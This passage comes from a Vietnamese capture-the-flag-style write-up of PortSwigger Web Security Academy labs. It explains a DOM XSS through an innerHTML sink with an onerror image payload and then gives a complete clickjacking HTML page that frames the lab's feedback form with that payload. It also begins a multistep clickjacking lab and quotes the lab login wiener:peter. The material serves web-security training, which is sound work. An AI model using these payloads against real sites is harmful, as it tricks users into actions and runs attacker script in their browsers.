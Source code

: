 >Ứng dụng web có chức năng feedback tại /feedback nhận các tham số trên URL làm giá trị cho các input tương ứng của form: ![image](https://hackmd.io/_uploads/rybPlQ-IA.png)

>Khi submit form thì có thấy một thông báo chứa giá trị của tham số `name`: ![image](https://hackmd.io/_uploads/SynOeX-LR.png)

>Đọc mã nguồn HTML thì có 1 file js xử lí việc này `/resources/js/submitFeedback.js`. Cụ thể, sink **innerHTML** được sử dụng để in ra dòng này với source là `name`: ![image](https://hackmd.io/_uploads/SkkJZmWLR.png)

>Source name đó chính là trường `name` mình nhập vào. Ta có thể thấy ở đây không có bất kì cơ chế validate nào => có thể dính DOM XSS: ![image](https://hackmd.io/_uploads/S1wMbQZ8A.png)

>Do dùng sink **innerHTML** nên ta sẽ sử dụng payload `<img src=1 onerror=print()>` tại trường `name`. Kết quả sau khi submit thì hàm print() được thực thi thành công: ![image](https://hackmd.io/_uploads/r1EIbmZL0.png)

>Như vậy ta đã DOM XSS thành công, bây giờ sẽ tạo payload Clickjacking tại trang `/feedback` sao cho button Click me đè lên button Submit feedback. Tất nhiên tham số `name` tại URL sẽ là XSS payload `<img src=1 onerror=print()>`:
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 850px;
        opacity: 0.5;
        z-index: 2;
    }
    button {
        position:absolute;
        top: 801px;
        left: 73px;
        z-index: 1;
    }
</style>
<button>Click me</button>
<iframe src="https://0a6b00bf0327b9ed847ed88b00e5000a.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=hacked@gmail.com&subject=XSS&message=DOM%20XSS%20Clickjacking"></iframe>
```

>Căn chỉnh sao cho button Click me đè lên Submit feedback: ![image](https://hackmd.io/_uploads/HJBkMmb8A.png)

>**"Deliver exploit to victim"** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/SJjWzQZUA.png)

# **5. Lab: Multistep clickjacking**
>This lab has some account functionality that is protected by a [CSRF](https://portswigger.net/web-security/csrf) token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
You can log in to the account yourself using the following credentials: `wiener:peter`
![image](https://hackmd.io/_uploads/ByE47QbIC.png)
